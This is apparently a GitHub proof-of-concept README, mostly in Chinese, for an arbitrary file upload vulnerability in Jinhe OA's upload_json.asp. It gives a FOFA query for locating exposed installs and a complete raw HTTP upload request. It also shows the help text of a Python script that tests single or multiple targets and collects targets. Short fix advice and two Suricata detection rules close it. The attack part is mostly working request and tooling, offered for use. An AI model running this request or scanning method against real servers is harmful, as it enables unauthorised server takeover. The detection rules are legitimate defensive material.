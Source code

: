 ### 产品简介  
金和网络是专业信息化服务商，为城市监管部门提供了互联网+监管解决方案，为企事业单位提供组织协同OA系统升开发平台，电子政务一体化平台智慧电商平合等服务  

### 漏洞概述  
金和OA upload_json.asp存在任意文件上传漏洞，攻击者可通过此漏洞获取服务器权限。  

### 指纹识别  
fofa: app="金和网络-金和OA"  

![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E9%87%91%E5%92%8C/Jinhe_OA_Arbitrary_File_Upload_Vulnerability/1.png)

### 漏洞利用  
```
poc:
POST /c6/KindEditor1/asp/upload_json.asp?dir=file HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Content-Length: 338
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------153857212076213662067051609723
 
-----------------------------153857212076213662067051609723
Content-Disposition: form-data; name="localUrl"
 
 
-----------------------------153857212076213662067051609723
Content-Disposition: form-data; name="imgFile"; filename="123.txt"
Content-Type: image/png
 
hello success
-----------------------------153857212076213662067051609723--
```

![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E9%87%91%E5%92%8C/Jinhe_OA_Arbitrary_File_Upload_Vulnerability/3.png)  
![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E9%87%91%E5%92%8C/Jinhe_OA_Arbitrary_File_Upload_Vulnerability/2.png)  

### 测试和利用脚本  
```
python3 Jinhe_OA_Arbitrary_File_Upload_Vulnerability.py -h                      
usage: Jinhe_OA_Arbitrary_File_Upload_Vulnerability.py [-h] [-t] [-r FILE] [-u URL]

### Jinhe OA upload_ Json.asp has an arbitrary file upload vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python Jinhe_OA_Arbitrary_File_Upload_Vulnerability.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python Jinhe_OA_Arbitrary_File_Upload_Vulnerability.py -u http://xxx.xxx.xxx
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  

### Suricata rules  
```
alert http any any -> any any (msg:"Jinhe OA upload_ Json.asp has an arbitrary file upload vulnerability"; flow:established,to_server; flowbits:set,Jinhe_OA_Arbitrary_File_Upload_Vulnerability; content:"post";http_method;nocase; content:"/c6/KindEditor1/asp/upload_json.asp?dir=file";http_uri;fast_pattern;nocase; content:"Content-Type: multipart/form-data";nocase;http_header; content:"Content-Disposition: form-data\; name=";nocase;http_client_body; content:"filename=";nocase;http_client_body; pcre:"/filename=[^\.]+\.(txt|jsp|jspx|exe|asp|aspx)/Pi"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E9%87%91%E5%92%8C/Jinhe_OA_Arbitrary_File_Upload_Vulnerability; classtype:web-attck; metadata:created_at 2024-01-08,updated_at 2024-01-08,creater:YUUKI4O4; sid:5; rev:1;)
alert http any any -> any any (msg:"Jinhe OA upload_ Json.asp has an arbitrary file upload vulnerability, successful"; flow:established,from_server; flowbits:isset,Jinhe_OA_Arbitrary_File_Upload_Vulnerability; content:"200";http_stat_code; content:"{";nocase;http_server_body;startswith; content:"error";nocase;http_server_body;distance:0; content:"url";nocase;http_server_body; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E9%87%91%E5%92%8C/Jinhe_OA_Arbitrary_File_Upload_Vulnerability; classtype:web-attck; metadata:created_at 2024-01-08,updated_at 2024-01-08,creater:YUUKI4O4; sid:6; rev:1;)
```
